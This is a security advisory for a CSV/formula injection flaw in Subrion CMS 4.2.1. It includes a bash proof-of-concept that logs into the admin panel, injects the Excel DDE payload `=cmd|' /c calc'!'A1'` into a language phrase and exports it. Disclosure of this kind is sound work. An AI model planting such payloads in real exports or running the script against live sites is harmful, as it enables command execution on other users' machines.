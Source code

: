 # Export Language - CSV Injection (aka Excel Macro Injection or Formula Injection)

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS 4.2.1. It has been rated as problematic. Affected by this issue is an unknown code. The manipulation of the of a phrase value within a language leads to a CSV Injection vulnerability. Using CWE to declare the problem leads to CWE-1236. Impacted is confidentiality. An attacker might be able inject script and macros inside CSVs, and using them to mount further attacks against other users.

The weakness was presented 04/12/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-XXXX. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known but no exploit is publicly available.

## Proof-of-Concept

The following script may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"

# Grep Session Cookie Name
sess_cookie_name=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*")
cookies="Cookie: loader=loaded; $sess_cookie_name=00000000000000000000000000"
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
echo "[*] Logging in"
# Fix the Session Cookie Value and login
res=$(curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "$cookies" -i | grep "Set-Cookie")

echo "[*] Adding evil phrase"
# Get CSRF Token to ADD a phrase
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/phrases/add/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
# Add the crafted parameter
res=$(curl -ksi -x "$proxy" -X "POST" -H "$cookies" --data-binary "__st=$csrf_token&key=_csv_injection_&category=common&module=&value%5Ben%5D=%2C%3Dcmd%7C%27+%2Fc+calc%27%21%27A1%27%2C&save=1&goto=list"  "$target/phrases/add/")
if [[ $(echo $res | grep "HTTP/1.1" | grep 302) == "" ]]; then
    echo "Could not add the evil phrase"
    exit 1
fi
echo "[*] Downloading Language"
# Get CSRF Token to Download
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/languages/download/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
# Downloading the file, showing the issue
curl -ks -x $proxy -X "POST" -H "$cookies" --data-binary "__st=$csrf_token&lang=en&file_format=csv&filename=subrion_4.2.1_en" "$target/languages/download/" | grep "_csv_injection_"
```

Using the above script should give the following output, proving the vulnerability.

```
$ ./csv_injection.sh
[*] Logging in
[*] Adding evil phrase
[*] Downloading Language
_csv_injection_|",=cmd|' /c calc'!'A1',"|",=cmd|' /c calc'!'A1',"|common|en||0
```

As it may be noticed, the value `=cmd|' /c calc'!'A1'` is treated as a standalone cell, wrapped between two commas. If opened in Microsoft Excel, a calculator would spawn.

## Remediation

Currently, no fixes are available for this issue.

## References

*   [https://cwe.mitre.org/data/definitions/1236.html](https://cwe.mitre.org/data/definitions/1236.html)
*   [https://owasp.org/www-community/attacks/CSV_Injection](https://owasp.org/www-community/attacks/CSV_Injection)
*   [https://vel.joomla.org/articles/2140-introducing-csv-injection](https://vel.joomla.org/articles/2140-introducing-csv-injection)



 
